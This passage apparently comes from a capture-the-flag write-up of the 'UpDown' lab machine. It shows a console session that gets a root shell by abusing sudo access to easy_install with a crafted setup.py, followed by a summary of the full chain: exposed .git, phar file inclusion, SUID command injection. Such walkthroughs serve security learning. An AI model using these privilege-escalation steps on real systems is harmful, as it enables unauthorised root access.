 ```console
    sys.argv[0] = re.sub(r'(-script\.pyw|\.exe)?$', '', sys.argv[0])
    sys.exit(main())
```

**Exploit**: (easy_install)

![image-20240305205946501](./UpDown.assets/image-20240305205946501.png)

```console
developer@updown:~$ TF=$(mktemp -d)
developer@updown:~$ echo $TF
/tmp/tmp.qnyeGLM56Z
developer@updown:~$ echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
developer@updown:~$ sudo /usr/local/bin/easy_install $TF
WARNING: The easy_install command is deprecated and will be removed in a future version.
Processing tmp.qnyeGLM56Z
Writing /tmp/tmp.qnyeGLM56Z/setup.cfg
Running setup.py -q bdist_egg --dist-dir /tmp/tmp.qnyeGLM56Z/egg-dist-tmp-ysxrf7
# id
uid=0(root) gid=0(root) groups=0(root)
# uname -a
Linux updown 5.4.0-122-generic #138-Ubuntu SMP Wed Jun 22 15:00:31 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
```

## Exploit Chain

port scan -> web enum: subdomain & path -> .git exposed & git-dumper -> dev web source code -> dev subdomain upload function & /?page= to include php file inside index.php -> upload zip file with png ext (php inside) & trigger php by /?page=phar://path -> www-data shell -> SUID siteisup with python command injection -> developer shell -> sudo easy_install -> root shell
